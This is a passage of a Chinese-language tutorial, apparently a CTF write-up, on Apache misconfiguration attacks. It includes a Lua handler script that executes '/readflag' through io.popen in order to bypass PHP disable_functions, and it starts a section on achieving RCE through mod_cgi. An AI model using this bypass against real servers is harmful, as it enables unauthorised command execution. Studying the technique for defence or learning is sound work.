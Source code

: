 可添加参数`?refresh=5`来实现每隔5s自动刷新

可以监控所有的访问。但是信息不够多，还可以想想有没有附加的配置项。





#### 4. 解析成lua脚本——绕过disable_functions

实际上是执行lua脚本。需要有apache-lua 模块，lua脚本能干的事情都能干，不运行php自然就不需要考虑disable_function的影响。



handler



```lua
require "string"

--[[
     This is the default method name for Lua handlers, see the optional
     function-name in the LuaMapHandler directive to choose a different
     entry point.
--]]

function handle(r)
    r.content_type = "text/plain"
    r:puts("Hello Lua World!\n")
    local t = io.popen('/readflag')
    local a = t:read("*all")
    r:puts(a)
    if r.method == 'GET' then
        for k, v in pairs( r:parseargs() ) do
            r:puts( string.format("%s: %s\n", k, v) )
        end
    else
        r:puts("Unsupported HTTP method " .. r.method)
    end
end
```









### CGI启动方式RCE利用

当我们了解原理后，Apache是需要调用第三方CGI程序，但是一个程序是不是CGI程序这个事很难界定，我们能否通过调用特定的CGI程序(普通程序)来执行任意系统命令呢。答案是可以的。





#### mod_cgi 模块

具有处理程序`cgi-script`的任何文件都将被视为  CGI 脚本，并由服务器运行，并将其输出返回给 Client 端。文件通过具有包含由[AddHandler](https://www.docs4dev.com/docs/zh/apache/2.4/reference/mod-mod_mime.html#addhandler)指令定义的 extensions 的名称或位于[ScriptAlias](https://www.docs4dev.com/docs/zh/apache/2.4/reference/mod-mod_alias.html#scriptalias)目录中来获取此处理程序。
